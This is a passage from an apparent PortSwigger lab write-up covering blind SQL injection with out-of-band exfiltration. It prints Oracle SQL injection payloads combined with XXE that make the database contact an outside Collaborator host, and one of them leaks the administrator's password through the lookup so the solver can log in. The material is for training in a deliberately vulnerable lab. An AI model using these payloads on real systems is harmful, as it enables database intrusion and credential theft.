         TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

* Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified TrackingId cookie.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/0d506ee4-31fe-4533-bc57-2d962b4afc1d)

* Thus, the lab is solved.

## Lab 18: Blind SQL injection with out-of-band data exfiltration

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

### Sol :

* Visit the front page of the shop, and use Burp Suite Professional to intercept and modify the request containing the TrackingId cookie.
* Modify the TrackingId cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:

      TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

* Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified TrackingId cookie.
* Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously
* You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the administrator user should appear in the subdomain of the interaction, and you can view this within the Collaborator tab. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/e463202c-eeea-484d-8b60-f57ed431c3b9)

* In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.
* Thus, the lab is solved.

## Lab 19: SQL injection with filter bypass via XML encoding
